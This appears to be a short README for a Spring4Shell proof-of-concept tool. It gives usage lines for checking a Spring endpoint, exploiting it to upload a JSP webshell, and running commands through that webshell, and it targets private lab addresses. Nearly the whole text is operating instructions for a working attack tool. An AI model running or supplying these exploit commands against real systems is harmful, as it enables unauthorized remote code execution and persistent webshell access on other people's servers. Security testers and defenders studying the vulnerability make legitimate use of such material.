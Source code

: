 Simple Spring4Shell POC 
-----------------------

* Check if endpoint is vulnerable 

`python spring4shell.py -u http://192.168.110.117:8080/helloworld/greeting --check`

* Exploit vulnerable endpoint

`python spring4shell.py -u http://192.168.110.117:8080/helloworld/greeting -f shell.jsp --exploit`

* Execute command on uploaded webshell

`python spring4shell.py -u http://192.168.110.117:8080/shell.jsp --cmd id`

![WebPage](spring4shell.png?raw=true)

